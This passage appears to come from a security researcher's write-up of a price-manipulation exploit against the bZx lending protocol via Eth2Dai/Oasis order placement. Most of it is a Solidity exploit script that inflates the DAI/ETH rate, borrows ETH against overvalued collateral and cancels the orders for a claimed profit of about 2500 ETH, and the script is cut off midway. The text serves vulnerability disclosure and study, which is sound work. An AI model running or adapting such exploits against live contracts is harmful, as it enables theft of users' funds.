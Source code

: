 ```
)
	public
	returns (uint)
{
	require(!locked, "Reentrancy attempt");
	var fn = matchingEnabled ? _offeru : super.offer;
	return fn(pay_amt, pay_gem, buy_amt, buy_gem);
}
```

While in practice lack of authorization is irrelevant as arbitrage bots will quickly fill any orders that can be automatically matched, in an atomic transaction we can create and cancel arbitrage-able orders and no bots will be able to fill them.

All that's left is to slightly modify our script from the previous attack to place orders on Eth2Dai instead of the OrderbookReserve. Note that in this case we will need to call both `order(uint,ERC20,uint,ERC20)` to submit the order to Eth2Dai without it being atomically matched, and then `insert(uint,uint)` in order to manually sort the order without triggering matching.

##### Demo

The following script will turn a profit of approximately 2500ETH by:

1. Listing an order buying 1 DAI for 10 ETH, increasing the price from 0.006ETH/DAI to 9.98ETH/DAI.
2. Borrowing ETH from bZx using DAI as collateral
3. Cancelling all orders and converting all assets to ETH

```
contract BZxOasisExploit is Script, Constants, TokenHelper, BZxHelpers {
    BZxLoanTokenV2Like private constant BZX_ETH = BZxLoanTokenV2Like(0x77f973FCaF871459aa58cd81881Ce453759281bC);
    
    uint constant private INITIAL_BALANCE = 250 ether;
    
    function setup() public {
        name("bzx-oasis-exploit");
        blockNumber(8455720);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.makeOrder)
            .then(this.checkRates)
            .then(this.borrow)
            .then(this.cleanup)
            .finally(this.checkProfits);
    }
    
    uint constant rateCheckAmount = 1 ether;
    
    function checkRates() external {
        (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(DAI, KYBER_ETH, rateCheckAmount);
        printf("checking rates tokens=%.18u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
    }
    
    uint private id;
    
    uint constant daiBidAmount = 1 ether;
    uint constant ethOfferAmount = 10 ether;
    function makeOrder() external {
        WETH.deposit.value(ethOfferAmount)();
        WETH.approve(address(MATCHING_MARKET), ethOfferAmount);
```